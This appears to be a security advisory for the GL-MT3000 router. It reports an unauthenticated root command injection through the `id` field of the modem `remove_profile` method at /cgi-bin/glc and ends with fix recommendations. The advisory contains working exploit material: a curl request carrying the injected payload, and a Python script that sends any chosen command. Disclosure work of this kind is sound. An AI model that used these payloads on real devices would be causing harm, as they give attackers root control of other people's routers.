


Submission Date: 2026.5.13
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint. The `modem.so` shared object exports a `remove_profile` function that extracts the `id` parameter from the JSON request body and passes it directly into `sprintf(cmd, "/usr/bin/switch_sim_slot modem clear_profile %s", id)` followed by `fork_exec(cmd)` (which invokes `/bin/sh -c`). No shell quoting is applied, and no modem-existence check is performed — only a null check on the `id` field. An attacker can inject `;cmd;#` to execute arbitrary commands as root without authentication and without any preconditions.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"modem", "method":"remove_profile",
      "args":{"id":"x;id>/tmp/poc;#"}}

  -> /www/cgi-bin/glc
       dlopen("modem.so") → dlsym("remove_profile") → handler(args)

  -> modem.so::remove_profile (0x10C44C)
       id = json_string_value(json_object_get(args, "id"))
       if (id == NULL) return 0;              // only null check
       // NO find_modem_by_bus check!

       guci_delete("apnprofile.%s", id);       // UCI operation (harmless)

       sprintf(cmd, "/usr/bin/switch_sim_slot modem clear_profile %s", id);
       fork_exec(cmd);                         // 💣 /bin/sh -c

  -> /bin/sh -c:
       /usr/bin/switch_sim_slot modem clear_profile x
       ;id>/tmp/poc       ← 💣 RCE
       ;#                  ← comment
```

The `remove_profile` function at offset 0x10C44C demonstrates the vulnerability — no modem-existence gate:



```c
// modem.so::remove_profile (0x10C44C)
id = json_string_value(json_object_get(args, "id"));
if (id == NULL) return 0;                       // only null check

// NO find_modem_by_bus() — unlike set_auto_connect, set_slot_config, set_upgrade

guci_delete("apnprofile.%s", id);               // UCI operation (safe)

sprintf(cmd, "/usr/bin/switch_sim_slot modem clear_profile %s", id);
fork_exec(cmd);                                  // 💣 /bin/sh -c
```

**Why remove_profile bypasses the modem-existence gate (unlike other modem.so handlers):**

| Function | Gate | Exploitable? |
|----------|------|-------------|
| `set_auto_connect` | `find_modem_by_bus(bus) ≠ NULL` | ❌ bus must be real hardware name |
| `set_slot_config` | `find_modem_by_bus(bus) ≠ NULL` | ❌ same |
| `set_upgrade` | `find_modem_by_bus(modem_url) ≠ NULL` | ⚠️ needs real modem; `firmware_upload` passes through |
| **`remove_profile`** | **none** | ✅ unconditional |

The injection mechanism (no quoting, no gate):

```text
Normal:  id = "profile1"
         → /usr/bin/switch_sim_slot modem clear_profile profile1
         ✅ legitimate

Exploit: id = "x;id>/tmp/poc;#"
         → /usr/bin/switch_sim_slot modem clear_profile x
         → ;id>/tmp/poc;  ← 💣 RCE
         → ;#              ← comment
```

Confirmed proof on target device:



```text
curl -sk -X POST https://192.168.8.1/cgi-bin/glc \
  -H 'Content-Type: application/json' \
  -d '{"object":"modem","method":"remove_profile","args":{"id":"x;id>/tmp/poc;#"}}'

→ /tmp/poc: uid=0(root) gid=0(root)
```

```python
#!/usr/bin/env python3
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

req = urllib.request.Request(
    f"{TARGET}/cgi-bin/glc",
    data=json.dumps({"object":"modem","method":"remove_profile",
        "args":{"id":f"x;{CMD}>/tmp/p18_prof 2>&1;#"}}).encode(),
    headers={"Content-Type":"application/json"}, method="POST")
print(urllib.request.urlopen(req, timeout=10, context=ctx).read().decode()[:200])
print("[+] check /tmp/p18_prof")
```

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | `modem.so` remove_profile | Replace `sprintf`+`fork_exec()` with `fork()`+`execv()` passing arguments via argv |
| P0 | `modem.so` remove_profile | Validate `id` against `^[a-zA-Z0-9][a-zA-Z0-9._-]*$` |
| P0 | `/www/cgi-bin/glc` | Add authentication and method allowlist |
